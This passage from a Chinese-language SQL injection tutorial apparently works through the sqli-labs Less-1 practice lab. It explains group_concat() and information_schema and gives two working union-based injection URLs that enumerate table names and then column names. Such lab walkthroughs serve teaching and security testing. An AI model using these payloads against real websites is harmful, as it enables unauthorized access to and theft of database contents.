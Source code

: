 -   `group_concat()`函数：使数据在一列中输出
-   `information_schema.tables`数据源：存储了数据表的元数据信息，我们主要使用此项数据源中的`table_name`和`table_schema`字段

最终可以构造出 Payload 如下，可以获取到 emails，referers，uagents，users 四张表

```bash
http://127.0.0.22/Less-1/?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() %23
```

[![](assets/1707953831-c35fbae0a1110ba90ee559ef2d11da70.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204190202-d36cd1d4-c34c-1.png)

## 第六步 - 爆列名

基于表名使用`column_name`爆出列名，此时数据源为`information_schema.columns`，位置在`table_name='表名'(记得给表名加单引号)`

最终构造 Payload 如下，可以获取到 id，email\_id 两个字段

```bash
http://127.0.0.22/Less-1/?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails' %23
```

[![](assets/1707953831-973dbdcf1085630a75078e85a8944adb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204190241-ea79b91e-c34c-1.png)
